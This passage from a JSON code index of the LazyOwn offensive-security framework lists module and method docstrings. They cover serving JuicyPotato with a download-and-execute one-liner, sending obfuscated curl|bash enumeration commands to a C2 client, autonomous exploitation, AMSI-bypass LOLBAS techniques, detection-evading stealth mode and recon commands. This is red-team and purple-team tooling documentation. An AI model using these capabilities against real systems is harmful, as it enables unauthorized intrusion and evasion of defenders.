HTTP for Windows privilege escalation.\n\nSearches for ``JuicyPotato.exe`` in configured directories,\ncopies it to ``sessions/`` and serves it via HTTP. Prints the\ntarget one-liner for download + execution.\n\nArgs:\n    line: Optional CLSID for the potato attack. Defaults to\n        the BITS CLSID when omitted.\n\nReturns:\n    None.", "kind": "method", "line": 632, "name": "do_juicypotato", "signature": "def do_juicypotato(self, line)"}, {"doc": "Serve a Windows privilege escalation binary over HTTP.\n\nArgs:\n    binary: Filename to search for and serve.\n    label: Human-readable tool name for log messages.\n    description: One-line description of the technique.\n    args: Additional CLI arguments for the tool on the target.\n\nReturns:\n    None.", "kind": "method", "line": 656, "name": "_serve_windows_tool", "signature": "def _serve_windows_tool(self, binary, label, description, args)"}, {"doc": "Detect the target OS from world_model.json or sessions/os.json.\n\nChecks the world model first for the host matching ``rhost``, then\nfalls back to ``sessions/os.json``.\n\nReturns:\n    ``\"linux\"``, ``\"windows\"``, or ``\"\"`` if unknown.", "kind": "method", "line": 695, "name": "_detect_os_for_privesc", "signature": "def _detect_os_for_privesc(self)"}, {"doc": "Prepare and send a linpeas/winpeas command to a C2 client.\n\nDetects the target OS from the world model or ``os.json``, builds a\nofuscated (base64) curl|bash one-liner via ``ofuscate_payload`` and\nsends it to the specified C2 client via ``issue_command_to_c2``.\n\nArgs:\n    line: ``<client_id> [--small]``\n\nReturns:\n    None", "kind": "method", "line": 754, "name": "do_privesc_cmd_by_os", "signature": "def do_privesc_cmd_by_os(self, line)"}]}, {"doc": "Purple Team CommandSet: closed-loop offensive detection measurement.  Exposes commands that orchestrate the red->blue->purple cycle:  * ``purple_exec`` — execute a red action and measure detection via LazyOwnBT * ``purple_test`` — measure without executing (dry-run, ai_test only) * ``purple_score`` — show current engagement detection score * ``purple_report`` — generate full engagement report with datasets * ``purple_methods`` — list available detection methods * ``purple_config`` — show/update purple team configuration * ``purple_history`` — show recent purple team results  Each command generates CSV datasets for ML training and feedback for the DetectionOracle calibration loop.", "id": "cli/commands/purple_team.py", "kind": "module", "label": "purple_team.py", "language": "py", "sha256": "f4a3b220ef063648", "symbol_count": 14, "symbols": [{"kind": "function", "line": 29, "name": "_build_exec_parser", "signature": "def _build_exec_parser()"}, {"kind": "function", "line": 67, "name": "_build_test_parser", "signature": "def _build_test_parser()"}, {"kind": "function", "line": 92, "name": "_build_config_parser", "signature": "def _build_config_parser()"}, {"kind": "function", "line": 106, "name": "_build_history_parser", "signature": "def _build_history_parser()"}, {"doc": "Purple team orchestration commands for the LazyOwn shell.", "kind": "class", "line": 124, "name": "PurpleTeamCommandSet", "signature": "class PurpleTeamCommandSet(LazyOwnCommandSet)"}, {"doc": "Build a PurpleTeamLoop from payload.json config.", "kind": "method", "line": 130, "name": "_get_loop", "signature": "def _get_loop(self)"}, {"doc": "Execute a red action and measure if LazyOwnBT detects it.\n\nUsage: purple_exec <command> [args...] [category]\nThe last word is category if it matches a known category.\nExample: purple_exec nmap -sV 127.0.0.1 recon\nExample: purple_exec lazynmap recon", "kind": "method", "line": 144, "name": "do_purple_exec", "signature": "def do_purple_exec(self, line)"}, {"doc": "Test if LazyOwnBT would detect a command (no execution).\n\nDry-run mode: queries BT detection methods without actually\nexecuting the red action. Useful for pre-engagement assessment.", "kind": "method", "line": 203, "name": "do_purple_test", "signature": "def do_purple_test(self, args)"}, {"doc": "Show current engagement detection score.\n\nDisplays total actions, detection rate, per-category and per-method\nbreakdowns. Written to sessions/purple_score.json.", "kind": "method", "line": 223, "name": "do_purple_score", "signature": "def do_purple_score(self, line)"}, {"doc": "Generate full engagement report with datasets.\n\nProduces sessions/purple_report.json with score, oracle accuracy,\nper-action results, and dataset paths for ML training.", "kind": "method", "line": 271, "name": "do_purple_report", "signature": "def do_purple_report(self, line)"}, {"doc": "List available LazyOwnBT detection methods.", "kind": "method", "line": 285, "name": "do_purple_methods", "signature": "def do_purple_methods(self, line)"}, {"doc": "Show or update purple team configuration (payload.json).", "kind": "method", "line": 297, "name": "do_purple_config", "signature": "def do_purple_config(self, args)"}, {"doc": "Launch the Purple Team TUI dashboard.\n\nFull-screen Textual interface showing engagement score,\ndetection rates, recent actions, and ML dataset stats.\nPress Q to return to the shell.", "kind": "method", "line": 350, "name": "do_purple_dashboard", "signature": "def do_purple_dashboard(self, line)"}, {"doc": "Show recent purple team action results.", "kind": "method", "line": 367, "name": "do_purple_history", "signature": "def do_purple_history(self, args)"}]}, {"doc": "Autonomous exploitation and LOLBAS command set.  New chingon commands: auto_pwn, rich_tui, lolbas_list, lolbas_use, exploit_chain, stealth.", "id": "cli/commands/pwn.py", "kind": "module", "label": "pwn.py", "language": "py", "sha256": "be5c16ec328e801e", "symbol_count": 8, "symbols": [{"doc": "Autonomous exploitation, LOLBAS, and advanced attack commands.", "kind": "class", "line": 28, "name": "PwnCommandSet", "signature": "class PwnCommandSet(LazyOwnCommandSet)"}, {"doc": "Run the full autonomous exploitation chain against the target.\n\nUsage:\n    auto_pwn [--pivot] [--privesc] [--stealth low|medium|high|paranoid]\n\nExecutes recon, vulnerability scanning, exploit selection,\nexploitation, optional privilege escalation and auto-pivoting.", "kind": "method", "line": 35, "name": "do_auto_pwn", "signature": "def do_auto_pwn(self, line)"}, {"doc": "Launch the Rich-based live dashboard TUI.\n\nUsage:\n    rich_tui [--interval 3]\n\nOpens a real-time htop-style terminal dashboard showing host\ntopology, service status, exploit recommendations, active\npivots and beacons. Press 'q' to quit.", "kind": "method", "line": 109, "name": "do_rich_tui", "signature": "def do_rich_tui(self, line)"}, {"doc": "AI-driven multi-step exploit chaining with fallback strategies.\n\nUsage:\n    exploit_chain <target_ip>\n\nUses heuristic reasoning to chain exploits: if one fails,\nthe engine analyzes the failure and pivots to an alternative\nstrategy automatically.", "kind": "method", "line": 158, "name": "do_exploit_chain", "signature": "def do_exploit_chain(self, line)"}, {"doc": "List available LOLBAS (Living Off The Land) techniques from plugins.\n\nUsage:\n    lolbas_list [amsi|etw|powershell|dotnet|all]\n\nDisplays evasion and execution techniques that use native OS\nbinaries and scripts to bypass security controls.", "kind": "method", "line": 245, "name": "do_lolbas_list", "signature": "def do_lolbas_list(self, line)"}, {"doc": "Execute a specific LOLBAS technique.\n\nUsage:\n    lolbas_use <plugin>/<technique_name>\n\nExample: lolbas_use amsi_bypass/amsiInitFailed", "kind": "method", "line": 302, "name": "do_lolbas_use", "signature": "def do_lolbas_use(self, line)"}, {"doc": "Enable stealth mode for subsequent operations.\n\nUsage:\n    stealth_on [low|medium|high|paranoid]\n\nAdds delays between operations, limits concurrency, and applies\ntraffic shaping to avoid detection.", "kind": "method", "line": 394, "name": "do_stealth_on", "signature": "def do_stealth_on(self, line)"}, {"doc": "Disable stealth mode.", "kind": "method", "line": 422, "name": "do_stealth_off", "signature": "def do_stealth_off(self, line)"}]}, {"doc": "Reconnaissance command set.  Network reconnaissance commands: nmap variants, DNS tools, web fingerprinting, and quick recon scripts.", "id": "cli/commands/recon.py", "kind": "module", "label": "recon.py", "language": "py", "sha256": "318e43eed81e98f3", "symbol_count": 14, "symbols": [{"doc": "Reconnaissance phase commands.", "kind": "class", "line": 40, "name": "ReconCommandSet", "signature": "class ReconCommandSet(LazyOwnCommandSet)"}, {"doc": "Runs the internal module `modules/lazynmap.sh` for multiple Nmap scans.\n\nThis method executes the `lazynmap` script, using the current working directory\nand the `rhost` parameter from the `self.params` dictionary as the target IP.\nIf `rhost` is not set, it prints an error message.\n\n:return: None", "kind": "method", "line": 47, "name": "do_batchnmap", "signature": "def do_batchnmap(self, line)"}, {"doc": "Runs the internal module `modules/lazynmap.sh` with target mode.\n\nOS detection (via ping TTL) is performed automatically before scanning\nwhen the target OS is not yet known, so that tool selectors downstream\nhave a valid platform context.\n\n:param line: The network IP to scan. Defaults to rhost from params.\n:type line: str\n\n:return: None", "kind": "method", "line": 74, "name": "do_lazynmap", "signature": "def do_lazynmap(self, line)"}, {"doc": "Executes the `dig` command to query DNS information.\n\n1. Retrieves the DNS server IP from the `line` parameter and the target host from the `rhost` parameter.\n2. If either the DNS server or `rhost` is not provided, an error message is printed.\n3. Executes the `dig` command to query the version of the DNS server and additional records.\n\n:param line: DNS server IP or hostname. Must be provided for the `dig` command.\n:param rhost: Target host for additional `dig` queries.\n\n:returns: None\n\nManual execution:\nTo manually run these commands, use the following syntax:\n    dig version.bind CHAOS TXT @<dns_server>\n    dig any <domain> @<rhost>\n\nReplace `<dns_server>` with the IP address or hostname of the DNS server, `<domain>` with the target domain, and `<rhost>` with the IP address or hostname of the target machine.", "kind": "method", "line": 154, "name": "do_dig", "signature": "def do_dig(self, line)"}, {"doc": "Performs DNS enumeration using `dnsenum` to identify subdomains for a given domain.\n\n1. Executes the `dnsenum` command with parameters to specify the DNS server, output file, and wordlist for enumeration.\n\n:param line: The target domain to perform DNS enumeration on, e.g., `ghost.htb`.\n:param rhost: The DNS server to use for enumeration, e.g., `10.10.11.24`.\n:param dnswordlist: The path to the DNS wordlist file used for subdomain discovery.\n\n:returns: None\n\nManual execution:\nTo manually perform DNS enumeration, use the following command:\n    dnsenum --dnsserver <dns_server> --enum -p 0 -s 0 -o <output_file> -f <dns_wordlist> <target_domain>\n\nReplace `<dns_server>` with the DNS server IP, `<output_file>` with the file path to save the results, `<dns_wordlist>` with the path to your DNS wordlist file, and `<target_domain>` with the domain to be enumerated.\n\nFor example:\n    dnsenum --dnsserver 10.10.11.24 --enum -p 0 -s 0 -o sessions/subdomains.txt -f /path/to/dnswordlist.txt ghost.htb", "kind": "method", "line": 186, "name": "do_dnsenum", "signature": "def do_dnsenum(self, line)"}, {"doc": "Performs DNS enumeration using `dnsmap` to discover subdomains for a specified domain.\n\n1. Executes the `dnsmap` command to scan the given domain with a specified wordlist.\n\n:param line: The target domain to perform DNS enumeration on, e.g., `ghost.htb`.\n:param dnswordlist: The path to the wordlist file used for DNS enumeration.\n\n:returns: None\n\nManual execution:\nTo manually perform DNS enumeration, use the following command:\n    dnsmap <target_domain> -w <dns_wordlist>\n\nReplace `<target_domain>` with the domain you want to scan and `<dns_wordlist>` with the path to your DNS wordlist file.\n\nFor example:\n    dnsmap ghost.htb -w /path/to/dnswordlist.txt", "kind": "method", "line": 222, "name": "do_dnsmap", "signature": "def do_dnsmap(self, line)"}, {"doc": "Performs a web technology fingerprinting scan using `whatweb`.\n\n1. Executes the `whatweb` command to identify technologies used by the target web application.\n\n:param line: This parameter is not used in the current implementation but could be used to pass additional options or arguments if needed.\n:param rhost: The target web host to be scanned, specified in the `params` dictionary.\n\n:returns: None\n\nManual execution:\nTo manually perform web technology fingerprinting, use the following command:\n    whatweb <target_host>\n\nReplace `<target_host>` with the URL or IP address of the web application you want to scan.\n\nFor example:\n    whatweb example.com", "kind": "method", "line": 255, "name": "do_whatweb", "signature": "def do_whatweb(self, line)"}, {"doc": "Performs network scanning using `nbtscan` to discover NetBIOS names and addresses in a specified range.\n\n1. Executes the `nbtscan` command with the `-r` option to scan the specified range of IP addresses for NetBIOS information.\n\n:param line: This parameter is not used in the current implementation but could be used to specify additional options or arguments if needed.\n:param rhost: The target network range for scanning, specified in the `params` dictionary.\n\n:returns: None\n\nManual execution:\nTo manually perform a NetBIOS scan across a network range, use the following command:\n    sudo nbtscan -r <network_range>\n\nReplace `<network_range>` with the IP address range you want to scan. For example:\n    sudo nbtscan -r 192.168.1.0/24", "kind": "method", "line": 292, "name": "do_nbtscan", "signature": "def do_nbtscan(self, line)"}, {"doc": "Runs the `nikto` tool to perform a web server vulnerability scan against the specified target host.\n\n1. Executes `nikto` with the `-h` option to specify the target host IP address.\n2. Installs `nikto` if it is not already installed.\n\n:param line: This parameter is not used in the current implementation but could be used to specify additional options or arguments if needed.\n:param rhost: The IP address of the target web server, specified in the `params` dictionary.\n\n:returns: None\n\nManual execution:\nTo manually perform a web server vulnerability scan using `nikto`, use the following command:\n    nikto -h <target_ip>\n\nReplace `<target_ip>` with the IP address of the target web server. For example:\n    nikto -h 10.10.10.10", "kind": "method", "line": 320, "name": "do_nikto", "signature": "def do_nikto(self, line)"}, {"doc": "Runs the `finalrecon` tool to perform a web server vulnerability scan against the specified target host.\n\n1. Executes `finalrecon` with the `-h` option to specify the target host IP address.\n\n:param line: This parameter is not used in the current implementation but could be used to specify additional options or arguments if needed.\n:param rhost: The IP address of the target web server, specified in the `params` dictionary.\n\n:returns: None\n\nManual execution:\nTo manually perform a web server vulnerability scan using `finalrecon`, use the following command:\n    finalrecon --url=http://<target_ip> --full -o txt -cd <directory_reports>\n\nReplace `<target_ip>` with the IP address of the target web server. For example:\n    finalrecon --url=http://192.168.1.92 --full -o txt -cd /home/gris/finalrecon", "kind": "method", "line": 429, "name": "do_finalrecon", "signature": "def do_finalrecon(self, line)"}, {"doc": "Uses `openssl s_client` to connect to a specified host and port, allowing for testing and debugging of SSL/TLS connections.\n\n:param line: The port number to connect to on the target host. This must be provided as an argument.\n:param rhost: The IP address or hostname of the target server, specified in the `params` dictionary.\n\n:returns: None\n\nManual execution:\nTo manually connect to a server using `openssl s_client` and test SSL/TLS, use the following command:\n    openssl s_client -connect <target_ip>:<port>\n\nReplace `<target_ip>` with the IP address or hostname of the target server and `<port>` with the port number. For example:\n    openssl s_client -connect 10.10.10.10:443", "kind": "method", "line": 461, "name": "do_openssl_sclient", "signature": "def do_openssl_sclient(self, line)"}, {"doc": "Search all exploit sources and map findings to the next LazyOwn command.\n\nWithout arguments: reads the nmap XML for the current rhost, extracts\nevery open service+version, searches all sources for each one, saves\nstructured results to sessions/ss_results_<rhost>.json, creates tasks\nfor services with hits, and prints a 'what to try next' table.\n\nWith a manual query: runs the full multi-source search (searchsploit,\nNVD, ExploitAlert, PacketStorm, MSF, Sploitus) for that term and shows\nrecommended commands for the matching service.\n\nUsage:\n    ``ss``                  — auto-scan from nmap XML for current rhost\n    ``ss apache 2.4.49``    — manual query\n    ``ss OpenSSH 8.4``      — manual query", "kind": "method", "line": 491, "name": "do_ss", "signature": "def do_ss(self, line)"}, {"doc": "Uses `wfuzz` to perform fuzzing based on provided parameters. This function supports various options for directory and file fuzzing.\n\n:param line: The options and arguments for `wfuzz`. The `line` parameter can include the following:\n    - `sub <domain>`: Fuzz DNS subdomains. Requires `dnswordlist` to be assign.\n    - `iis`: Fuzz IIS directories. Uses a default wordlist if `iiswordlist` is not assign.\n    - Any other argument: General directory and file fuzzing.\n\n:returns: None\n\nManual execution:\nTo manually use `wfuzz` for directory and file fuzzing, use the following commands:\n\n1. For fuzzing DNS subdomains:\n    wfuzz -c <extra_options> -t <threads> -w <wordlist> -H 'Host: FUZZ.<domain>' <domain>\n\nExample:\n    wfuzz -c --hl=7 -t 200 -w /path/to/dnswordlist -H 'Host: FUZZ.example.com' example.com\n\n2. For fuzzing IIS directories:\n    wfuzz -c <extra_options> -t <threads> -w /path/to/iiswordlist http://<rhost>/FUZZ\n\nExample:\n    wfuzz -c --hl=7 -t 200 -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/IIS.fuzz.txt http://10.10.10.10/FUZZ\n\n3. For general directory and file fuzzing:\n    wfuzz -c <extra_options> -t <threads> -w <wordlist> http://<rhost>/FUZZ\n\nExample:\n    wfuzz -c --hl=7 -t 200 -w /path/to/dirwordlist http://10.10.10.10/FUZZ", "kind": "method", "line": 654, "name": "do_wfuzz", "signature": "def do_wfuzz(self, line)"}, {"kind": "function", "line": 521, "name": "_run_single_search", "signature": "def _run_single_search(query)"}]}, {"doc": "recon commands migrated from lazyown.py.  Auto-generated by scripts/migrate_lazyown.py.", "id": "cli/commands/recon_migrated.py", "kind": "module", "label": "recon_migrated.py", "language": "py", "sha256": "797f1d0304117bb6", "symbol_count": 30, "symbols": [{"kind": "class", "line": 38, "name": "ReconMigratedCommandSet", "signature": "class ReconMigratedCommandSet(LazyOwnCommandSet)"}, {"doc": "Render the network surface graph in the terminal.\n\nMirrors the ``vis.js`` graph at ``http://<lhost>:<c2_port>/`` but\nworks entirely from the filesystem: it reads the same artefacts\n``lazyc2.py`` consumes (``sessions/hostsdiscovery.txt``,\n``sessions/scan_discovery*.csv``, per-implant ``sessions/<id>.log``,\n``payload.json``) so the operator can inspect the picture from a\ncmd2 shell with no Flask server attached.\n\nUsage:\n    ``surface``         — print a static Rich tree + stats table.\n    ``surface --tui``   — open the full-screen Textual explorer.\n    ``surface --json``  — emit the graph as JSON.\n    ``surface --help``  — show this message.\n\n:param line: optional flags ``--tui``, ``--json`` or ``--help``.\n:type line: str\n:return: None", "kind": "method", "line": 43, "name": "do_surface", "signature": "def do_surface(self, line)"}, {"doc": "Retrieve and display file capabilities on the system.\n\nThis function uses the `getcap` command to recursively list capabilities for files starting from the root directory (`/`). The output is filtered to suppress error messages.\n\nUsage:\n    getcap\n\n:param line: This parameter is not used in this function.\n:type line: str\n\n:returns: None\n\nManual execution:\n1. Run the `getcap -r /` command to list file capabilities recursively from the root directory.\n2. Redirect standard error to `/dev/null` to suppress error messages.\n3. Copy to clipboard the command to appy in the victim machine.\nDependencies:\n- `getcap` must be installed on the system.\n\nExample:\n    To execute the function, simply call `do_getcap`.\n\nNote:\n    - The command may require elevated permissions to access certain directories and files.", "kind": "method", "line": 97, "name": "do_getcap", "signature": "def do_getcap(self, line)"}, {"doc": "Searches for packages on Launchpad based on the provided search term and extracts codenames from the results. The distribution is extracted from the search term.\n\n:param line: The search term to be used for querying Launchpad. The `line` parameter should be a string containing\n            the search term, e.g., \"8.2p1 Ubuntu 4ubuntu0.11\".\n\n:returns: None\n\nManual execution:\nTo manually execute the equivalent command, use the following steps:\n\n1. Extract the distribution from the search term:\n- This function assumes the distribution name is part of the search term and is used to build the URL.\n\n2. URL encode the search term:\n- Replace spaces with `%20` to form the encoded search query.\n\n3. Use `curl` to perform the search and filter results:\ncurl -s \"https://launchpad.net/+search?field.text=<encoded_search_term>\" | grep 'href' | grep '<distribution>' | grep -oP '(?<=href=\"https://launchpad.net/<distribution>/)[^/\"]+' | sort -u\n\nExample:\n    If the search term is \"8.2p1 Ubuntu 4ubuntu0.11\", the command would be:\n    curl -s \"https://launchpad.net/+search?field.text=8.2p1%20Ubuntu%204ubuntu0.11\" | grep 'href' | grep 'ubuntu' | grep -oP '(?<=href=\"https://launchpad.net/ubuntu/)[^/\"]+' | sort -u\n\nNotes:\n    - Ensure that `curl` is installed and accessible in your environment.\n    - The extracted codenames are printed to the console.", "kind": "method", "line": 131, "name": "do_launchpad", "signature": "def do_launchpad(self, line)"}, {"doc": "Perform a ping to check host availability and infer the operating system based on TTL values.\n\n:param line: This parameter is not used in the function but could be used for additional options or settings.\n\n:returns: None\n\nManual execution:\nTo manually ping a host and determine its operating system, use the following command:\n\n    ping -c 1 <target>\n\nExample:\n    ping -c 1 10.10.10.10\n\nThe TTL (Time To Live) value is used to infer the operating system:\n- TTL values around 64 typically indicate a Linux system.\n- TTL values around 128 typically indicate a Windows system.\n\nEnsure you have assign `self.params['rhost']` to the target host for the command to work.", "kind": "method", "line": 177, "name": "do_ping", "signature": "def do_ping(self, line)"}, {"doc": "Try gospider for web spidering.\n\nThis function executes the `gospider` tool to perform web spidering. It can either use a URL provided as a parameter or the remote host defined in `self.params`.\n\nUsage:\n    gospider url\n    gospider\n\n:param line: Command parameter that determines the execution mode. Use \"url\" to specify a URL, or leave empty to use the remote host.\n:type line: str\n\n- If `line` is \"url\", the method uses the URL specified in `self.params['url']`.\n- If `line` is not \"url\", the method uses the remote host specified in `self.params['rhost']`.\n\n:returns: None\n\nManual execution:\n1. Ensure that the `gospider` tool is installed on the system.\n2. assign the `url` parameter if using the \"url\" mode.\n3. Run the method to perform the spidering operation.\n\nDependencies:\n- `gospider` must be installed on the system.\n- The `sudo` command must be available for installing `gospider`.\n\nExamples:\n    1. To scan a specific URL: `gospider url`\n    2. To scan the remote host: `gospider`\n\nNote:\n    - If `gospider` is not installed, the method will attempt to install it.\n    - Ensure that the network and tools are configured correctly for successful execution.", "kind": "method", "line": 285, "name": "do_gospider", "signature": "def do_gospider(self, line)"}, {"doc": "Runs a small proxy server to modify HTTP requests on the fly.\n\nThis function starts the `lazyproxy.py` script, which acts as a proxy server for intercepting and modifying HTTP requests. The server listens on port 8888.\n\nUsage:\n    proxy\n\n:param line: This parameter is not used in the current implementation.\n:type line: str\n:returns: None\n\nManual execution:\n1. Executes the `lazyproxy.py` script to start the proxy server.\n2. The proxy server will run and modify requests as configured in the script.\n\nDependencies:\n- The `lazyproxy.py` script must be available in the `modules` directory.\n\nExample:\n    proxy\n\nNote:\n    - Ensure that the `lazyproxy.py` script is correctly configured before running.\n    - The proxy server will be accessible at `http://localhost:8888`.\n    - To stop the proxy server, terminate the running process manually.", "kind": "method", "line": 373, "name": "do_proxy", "signature": "def do_proxy(self, line)"}, {"doc": "Lists all open TCP and UDP ports on the local system.\n\nThis function performs the following actions:\n1. Calls the `get_open_ports` function to retrieve lists of open TCP and UDP ports.\n2. Prints a header for open TCP ports.\n3. Iterates over the list of open TCP ports, printing each IP address and port number.\n4. Prints a header for open UDP ports.\n5. Iterates over the list of open UDP ports, printing each IP address and port number.\n\nUsage:\n    ports\n\n:param line: This parameter is not used in the function.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually use this function:\n1. Ensure the `get_open_ports` function is defined and properly implemented to return lists of open TCP and UDP ports.\n2. Run the function to display open TCP and UDP ports on the local system.\n\nNote: The `get_open_ports` function should return two lists of tuples: one for TCP ports and one for UDP ports. Each tuple should contain an IP address and a port number.", "kind": "method", "line": 411, "name": "do_ports", "signature": "def do_ports(self, line)"}, {"doc": "Starts `tcpdump` to capture ICMP traffic on the specified interface.\n\n1. Checks if the `line` argument (interface) is provided:\n- Displays an error message and exits if the interface is missing.\n\n2. If the interface is provided:\n- Displays the `tcpdump` command that will be executed.\n- Runs the `tcpdump` command to capture ICMP traffic on the specified interface.\n\n:param line: The network interface on which to capture ICMP traffic (e.g., `tun0`).\n:type line: str\n:returns: None\n\nManual execution:\nTo manually run these tasks, you would need to:\n- Provide a valid network interface for capturing ICMP traffic.\n- Execute the `tcpdump` command manually to capture ICMP traffic on the specified interface.\n\nNote: Ensure that you have sufficient permissions to run `tcpdump` on the specified interface.", "kind": "method", "line": 453, "name": "do_tcpdump_icmp", "signature": "def do_tcpdump_icmp(self, line)"}, {"doc": "Starts packet capture using `tcpdump` on the specified interface.\n\n1. Checks if the `line` argument (interface) is provided:\n- Displays an error message and exits if the interface is missing.\n\n2. Validates the `self.params['rhost']` (remote host IP):\n- Exits the function if the `self.params['rhost']` is not valid.\n\n3. If the interface and `self.params['rhost']` are valid:\n- Displays the `tcpdump` command that will be executed.\n- Runs the `tcpdump` command to capture packets on the specified interface and save the capture file to `pcaps/capture_<self.params['rhost']>.pcap`.\n\n:param line: The network interface on which to capture packets (e.g., `tun0`).\n:type line: str\n:returns: None\n\nManual execution:\nTo manually run these tasks, you would need to:\n- Provide a valid network interface for capturing packets.\n- Ensure the remote host IP is assign correctly.\n- Execute the `tcpdump` command manually to capture packets on the specified interface.\n\nNote: Ensure that the `pcaps` directory exists and is writable for saving the capture file.", "kind": "method", "line": 486, "name": "do_tcpdump_capture", "signature": "def do_tcpdump_capture(self, line)"}, {"doc": "Analyzes a packet capture file using `tshark` based on the provided remote host IP.\n\n1. Checks if the `self.params['rhost']` (remote host IP) is valid:\n- Displays an error message and exits if the `self.params['rhost']` is not valid.\n\n2. Verifies the existence of the packet capture file:\n- Displays an error message and exits if the capture file is missing.\n- Prompts the user to run the `do_tcpdump_capture` command first.\n\n3. If the capture file exists:\n- Displays the `tshark` command that will be executed.\n- Runs the `tshark` command to analyze the packet capture file and print out IP destination and frame time fields.\n\n:param line: The command line input specifying the interface for capturing packets.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually run these tasks, you would need to:\n- Ensure the remote host IP is valid.\n- Run the `do_tcpdump_capture` command to capture packets.\n- Execute the `tshark` command manually to analyze the packet capture file.\n\nNote: Ensure that the capture file `pcaps/capture_<self.params['rhost']>.pcap` is available in the `pcaps` directory.", "kind": "method", "line": 527, "name": "do_tshark_analyze", "signature": "def do_tshark_analyze(self, line)"}, {"doc": "Fetch URLs from the Wayback Machine for a given website.\nThe URL is taken from line. If the URL is not provided, an error is printed.\nThe limit of results is taken from self.params['limit'] if provided; otherwise, defaults to 10.\nResults are printed directly to the console.", "kind": "method", "line": 593, "name": "do_waybackmachine", "signature": "def do_waybackmachine(self, line)"}, {"doc": "Run an SSL scan on the specified remote host.\n\nThis function initiates an SSL scan on a specified remote host (`self.params['rhost']`)\nusing the `sslscan-singleip.sh` script. If a specific port is provided in the\n`line` argument, the scan will target that port; otherwise, it will scan\nall available ports.\n\nParameters:\nline (str): The port number to scan (optional). If omitted, the scan will target all ports.\n\nInternal Variables:\nself.params['rhost'] (str): The remote host IP address or hostname extracted from the `params` attribute.\n\nReturns:\nNone\n\nExample Usage:\n- To scan all ports on the specified `self.params['rhost']`: `sslscan`\n- To scan a specific port (e.g., port 443) on `self.params['rhost']`: `sslscan 443`\n\nNote:\n- The `check_rhost()` function is used to validate the `self.params['rhost']` before running the scan.\n- The `sslscan-singleip.sh` script must be present in the `sessions` directory.", "kind": "method", "line": 633, "name": "do_sslscan", "signature": "def do_sslscan(self, line)"}, {"doc": "Executes the graudit command to perform a static code analysis with the specified options.\n\nThis function runs the 'graudit' tool with the '-A' option for an advanced scan and\nthe '-i sessions' option to include session files. The results will be displayed\ndirectly in the terminal.\n\nArgs:\n    line (str): Input line from the command interface. This argument is currently\n                not used within the function but is required for the command\n                interface structure.\n\nExample:\n    To run this function from the command interface, simply type 'graudit' and press enter.\n    The function will execute the 'graudit -A -i sessions' command.\n\nNote:\n    Ensure that 'graudit' is installed and properly configured in your system's PATH\n    for this function to work correctly.", "kind": "method", "line": 674, "name": "do_graudit", "signature": "def do_graudit(self, line)"}, {"doc": "Executes the Sherlock tool to find usernames across social networks.\n\nThis function takes a username as an argument and runs the Sherlock tool\nto check for the username's presence on various social networks. The\nresults are saved in CSV format in the `sessions` directory.\n\nParameters:\nline (str): The username to be checked by Sherlock. If not provided, an\n            error message is printed and the function returns.\n\nReturns:\nNone\n\nRaises:\nNone\n\nExample:\n>>> do_sherlock(\"example_user\")\nRunning command: sherlock example_user --local -v --csv --print-found\n\nAdditional Notes:\n- The Sherlock tool must be installed and available in the system path.\n- The results are saved in the `sessions` directory as a CSV file.\n- The `--local` flag forces the use of a local `data.json` file,\nwhich should be present in the appropriate directory.", "kind": "method", "line": 705, "name": "do_sherlock", "signature": "def do_sherlock(self, line)"}, {"doc": "Executes trufflehog to search for secrets in a given Git repository URL.\nIf trufflehog is not installed, it installs the tool automatically.\nThis function navigates to the 'sessions' directory and runs trufflehog\nwith the provided Git URL, outputting the results in JSON format.\n\nArgs:\n    line (str): The Git repository URL to scan for secrets.\n\nReturns:\n    None\n\nRaises:\n    None\n\nExample:\n    trufflehog https://github.com/user/repo.git\n\nNotes:\n    - Ensure that trufflehog is installed or it will be installed automatically.\n    - The output of the trufflehog scan is printed and executed in the 'sessions' directory.", "kind": "method", "line": 746, "name": "do_trufflehog", "signature": "def do_trufflehog(self, line)"}, {"doc": "Performs enumeration of users from a target system using `apache-users`.\n\n1. Executes the `apache-users` command with the `-h` option to specified target.\n\n:param line: This parameter is not used in the current implementation but could be used to pass additional options or arguments if needed.\n:param self.params['rhost']: The target host for enumeration, specified in the `params` dictionary.\n\n:returns: None\n\nManual execution:\nTo manually enumerate information from a system, use the following command:\n    apache-users -h <target_host> -l <wordlist> -p <apache_port> -s 0 -e 403 -t 10\n\nReplace `<target_host>` with the IP address or hostname of the target system.\n\nFor example:\n    apache-users -h 192.168.1.202 -l /usr/share/wordlists/metasploit/unix_users.txt -p 80 -s 0 -e 403 -t 10", "kind": "method", "line": 784, "name": "do_apache_users", "signature": "def do_apache_users(self, line)"}, {"doc": "Traces the DNS information for a given self.params['domain'] using the FreeDNS service. (using freedns IP Not your IP)\n\nThis method performs a DNS trace lookup for the specified self.params['domain'] by\nsending an HTTP GET request to the FreeDNS service. If no self.params['domain'] is provided\nin the input parameter `line`, it defaults to using the URL specified in the\ninstance's parameters.\n\nParameters:\nline (str): The self.params['domain'] name to trace. If not provided, the method uses the\n            self.params['domain'] extracted from `self.params['url']`.\n\nReturns:\nNone: This method executes a system command and does not return a value.\n\nExample:\n>>> self.do_trace(\"example.com\")\nExecutes a DNS trace for \"example.com\".\n\nNotes:\n- Ensure that the `self.params['url']` is set with a valid URL if no self.params['domain']\nis provided.\n- The method uses `os.system` to execute the trace command, which may not\nbe the most secure or efficient method for production code. Consider using\na library like `requests` for HTTP operations if security and efficiency\nare concerns.", "kind": "method", "line": 831, "name": "do_trace", "signature": "def do_trace(self, line)"}, {"doc": "Executes the 'alterx' command for subdomain enumeration on the provided self.params['domain']. If 'alterx'\nis not installed, the function automatically downloads, installs, and configures it. The result\nof the subdomain enumeration is saved in a session-specific text file.\n\nSteps performed by the function:\n\n1. **Check if 'alterx' is installed:**\n- Uses `is_binary_present(\"alterx\")` to verify if the 'alterx' binary is available in the system.\n- If the binary is not found, the function prints a warning and proceeds to download and install 'alterx'.\n\n2. **Installation of 'alterx':**\n- Executes a system command to create a directory named 'alterx' in the user's home directory.\n- Downloads the 'alterx' version 0.0.4 (Linux 64-bit) from GitHub and extracts it into the 'alterx' directory.\n\n3. **Add 'alterx' to system PATH:**\n- Depending on the user's shell (`bash` or `zsh`), it appends the 'alterx' directory to the system PATH\n    by modifying the appropriate shell configuration file (`~/.bashrc` or `~/.zshrc`). This ensures 'alterx'\n    can be executed from any directory.\n\n4. **Obtain the self.params['domain']:**\n- Retrieves the URL from the class parameter `self.params['url']`.\n- Extracts the self.params['domain'] from the URL using `get_domain(url)`.\n- If no self.params['domain'] is provided as an argument in `line`, prompts the user to input a 